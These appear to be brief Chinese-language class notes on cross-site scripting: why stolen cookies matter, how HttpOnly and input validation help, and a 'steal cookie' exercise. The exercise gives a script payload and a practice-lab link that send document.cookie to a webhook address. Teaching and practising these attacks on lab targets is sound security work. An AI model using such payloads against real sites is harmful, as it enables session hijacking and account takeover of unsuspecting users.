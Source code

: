 
## XSS

### Cookie 被偷走會怎麼樣

登入狀態會被偷走

### 如何預防 Cookie 可以被存取

- HTTP Only
- input validation

### 偷 Cookie 時間




```javascript=
<script>new Image().src="WEBHOOK?data="+document.cookie;</script>
```

[測試連結](http://vullab.feifei.tw/index.php?username=%3Cscript%3Enew+Image%28%29.src%3D%22%5BWEBHOOK%5D%28https%3A%2F%2Fwebhook.site%2F040571c1-9359-411e-97f7-2cc753840bc0%29%3Fdata%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E)


### 瀏覽器看不到

- 丁特的扭蛋機率
